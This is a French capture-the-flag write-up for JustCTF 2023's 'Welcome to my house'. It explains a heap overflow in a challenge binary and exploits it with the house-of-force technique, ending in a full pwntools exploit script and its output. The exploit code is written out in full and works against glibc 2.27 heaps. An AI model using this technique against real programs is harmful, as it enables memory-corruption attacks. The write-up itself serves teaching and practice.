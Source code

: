 ```yaml
---
title: JustCTF 2023 - Welcome to my house
---
```


# Découverte du challenge

file
```bash
› file house_patched                 
house_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.27.so, for GNU/Linux 3.2.0, BuildID[sha1]=efb671ee78fcd896b0e79a07aa8cb08817475d31, not stripped
```

checksec
```
gef➤  checksec
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

ldd
```
› ldd house_patched
	linux-vdso.so.1 (0x000078f5573e8000)
	libc.so.6 => ./libc.so.6 (0x000078f556c00000)
	./ld-2.27.so => /usr/lib64/ld-linux-x86-64.so.2 (0x000078f5573ea000)
```

glibc version
```
libc 2.27
```


En lancant le challenge on a la possibilité de faire : 
- Créer un utilisateur
- Lire le flag

```
[!]	Welcome in my house!	[!]

Actual user: admin

1. Create user
2. Read flag
3. Exit
```

On ne peut lire le flag seulement si on est l'utilisateur root, ici nous sommes admin.

```
>>  2

[-] You have to be root to read flag!
```

La commande "Create user" va faire : 
- Demander un nom d'utilisateur
- Demander un mot de passe
- Demander une taille de disque ??

En reversant cette méthode, on comprend que le programme alloue des chunks pour chaque variable qu'il va nous demander.   

Une partie intéressante ici : on contrôle la taille du chunk qui va être alloué pour l'espace disque.
De plus, le contenu de "password" est copié vers un chunk de taille 0x18 à la suite du chunk pour notre espace mémoire.
Pour finir, plusieurs heap overflow sont possibles. 

```c
int64_t create_user(){
	void* fsbase
    int64_t rax = *(fsbase + 0x28)
    printf("Enter username: ")
    int64_t ptr_username = malloc(0x19)
	__isoc99_scanf(&data_400c29, ptr_username)
    putchar(0xa)
    strcpy(malloc(0x18), ptr_username)
    printf("Enter password: ")
    int64_t ptr_password = malloc(0x18)
    __isoc99_scanf(&data_400c29, ptr_password)
    putchar(0xa)
    printf("Enter disk space: ")
    putchar(0xa)
    int64_t var_30
    __isoc99_scanf(&data_400c50, &var_30)
    malloc(var_30)
    int64_t rax_12 = malloc(0x18)
    strcpy(rax_12, ptr_password, rax_12)
    int64_t rax_15 = rax ^ *(fsbase + 0x28)
    if (rax_15 != 0)
	    rax_15 = __stack_chk_fail()
    return rax_15
}
```

**Idée** : Est ce qu'on pourrait utiliser la technique house of force pour écraser le top chunk, combler le vide qu'il y a entre notre position sur la heap et notre target, puis écraser le contenu de la target par "root" ?

Alors c'est partie !

Pour commencer, on utiliser le heap overflow pour écraser le top chunk et y placer la taille maximum (0xFFFFFFFFFFFFFFFF)

```pwndbg> vis

0x603000	0x0000000000000000	0x0000000000000251	........Q.......
...
0x603250	0x0000000000000000	0x0000000000000021	........!.......
0x603260	0x0000006e696d6461	0x0000000000000000	admin...........
0x603270	0x0000000000000000	0x0000000000000031	........1.......
0x603280	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x603290	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x6032a0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA	 <-- Top chunk
```

Ensuite, on calcule la distance qui sépare notre notre variable target avec notre position actuelle dans la heap.
Notre binaire n'étant pas PIE, on trouve les adresses grâce à GDB.

```python
target = 0x603250
heap = 0x603300

def delta(x,y):
    return (0xffffffffffffffff - x) + y
dist = delta(heap, target+16)
```

Maintenant, on construit notre payload: 
- On remplit les userdata du chunk avec des données junk, puis on écrase le TOP CHUNK avec un très grand nombre (cela nous permettera de faire de très grosses allocations).
- La variable password doit être à 'root' car elle sera copié par la suite dans notre target
- Comme taille pour l'espace disque, on calcule la distance qu'il y a entre notre position dans la heap et notre target.

```python
create_user(b"A"*0x18 + p64(-1, signed=True), b"root", dist)
read_flag()
```

## Output

```bash
› python xpl.py
[+] Starting local process './house_patched': pid 602233
[*] Target: 0x603250
[*] Heap: 0x603300
[*] Dist: 0xffffffffffffff5f
FLAG{f4k3_fl4g_f0r_t3st1ng}

[*] Stopped process './house_patched' (pid 602233)
```

et voila !

## Full exploit
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch='i386')
exe = './house_patched'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# create user
def cu(username, password, size):
    io.sendlineafter(b">>  ", b"1")
    io.sendlineafter(b"username:", username)
    io.sendlineafter(b"password:", password)
    io.sendlineafter(b"space:", str(size).encode())

# read flag
def rf():
    io.sendlineafter(b">>  ", b"2")
    io.recvline()
    print(io.recvline().decode())

def delta(x,y):
    return (0xffffffffffffffff - x) + y

gdbscript = '''
b create_user
'''.format(**locals())

target = 0x603250
heap = 0x603300
dist= delta(heap, target+16)

io = start()

info(f"Target: {hex(target)}")
info(f"Heap: {hex(heap)}")
info(f"Dist: {hex(dist)}")

cu(b"A"*0x18 + p64(-1, signed=True), b"root", dist)
rf()
```

